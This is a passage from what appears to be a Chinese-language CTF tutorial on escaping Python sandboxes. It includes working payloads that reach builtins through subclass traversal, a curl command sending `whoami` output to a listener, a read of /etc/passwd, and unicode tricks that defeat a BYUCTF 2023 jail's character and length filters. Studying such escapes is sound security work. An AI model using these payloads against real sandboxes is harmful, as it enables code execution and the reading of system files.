```py
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "builtins" in x.__init__.__globals__ ][0]["builtins"].__import__('multiprocessing').Process(target=lambda: __import__('os').system('curl localhost:9999/?a=`whoami`')).start()
```
#### File

操作文件可以使用 builtins 中的 open，也可以使用 FileLoader 模块的 get_data 方法。
```py
[ x for x in ''.__class__.__base__.__subclasses__() if x.__name__=="FileLoader" ][0].get_data(0,"/etc/passwd")
```

## 绕过长度限制
BYUCTF_2023 中的几道 jail 题对 payload 的长度作了限制
```py
eval((__import__("re").sub(r'[a-z0-9]','',input("code > ").lower()))[:130])
```

题目限制不能出现数字字母，构造的目标是调用 open 函数进行读取

```py
print(open(bytes([102,108,97,103,46,116,120,116])).read())
```
函数名比较好绕过，直接使用 unicode。数字也可以使用 ord 来获取然后进行相减。我这里选择的是 chr(333).
```py
# f = 102 = 333-231 = ord('ō')-ord('ç')
# a = 108 = 333-225 = ord('ō')-ord('á')
# l = 97 = 333-236 = ord('ō')-ord('ì')
# g = 103 = 333-230 = ord('ō')-ord('æ')
# . = 46 = 333-287 = ord('ō')-ord('ğ')
# t = 116 = 333-217 = ord('ō')-ord('Ù')
# x = 120 = = 333-213 = ord('ō')-ord('Õ')

print(open(bytes([ord('ō')-ord('ç'),ord('ō')-ord('á'),ord('ō')-ord('ì'),ord('ō')-ord('æ'),ord('ō')-ord('ğ'),ord('ō')-ord('Ù'),ord('ō')-ord('Õ'),ord('ō')-ord('Ù')])).read())
```
但这样的话其实长度超出了限制。而题目的 eval 表示不支持分号 ;，这种情况下，我们可以添加一个 exec。然后将 ord 以及不变的 `a('ō')` 进行替换。这样就可以构造一个满足条件的 payload
```py
exec("a=ord;b=a('ō');print(open(bytes([b-a('ç'),b-a('á'),b-a('ì'),b-a('æ'),b-a('ğ'),b-a('Ù'),b-a('Õ'),b-a('Ù')])).read())")
```
但其实尝试之后发现这个 payload 会报错，原因在于其中的某些 unicode 字符遇到 lower() 时会发生变化，避免 lower 产生干扰，可以在选取 unicode 时选择 ord 值更大的字符。例如 chr(4434)

当然，可以直接使用 input 函数来绕过长度限制。

### 打开 input 输入
如果沙箱内执行的内容是通过 input 进行传入的话（不是 web 传参），我们其实可以传入一个 input 打开一个新的输入流，然后再输入最终的 payload，这样就可以绕过所有的防护。

以 BYUCTF2023 jail a-z0-9 为例：
```py
eval((__import__("re").sub(r'[a-z0-9]','',input("code > ").lower()))[:130])
```
即使限制了字母数字以及长度，我们可以直接传入下面的 payload（注意是 unicode）
```py
𝘦𝘷𝘢𝘭(𝘪𝘯𝘱𝘶𝘵())
```
这段 payload 打开 input 输入后，我们再输入最终的 payload 就可以正常执行。
```py
__import__('os').system('whoami')
```
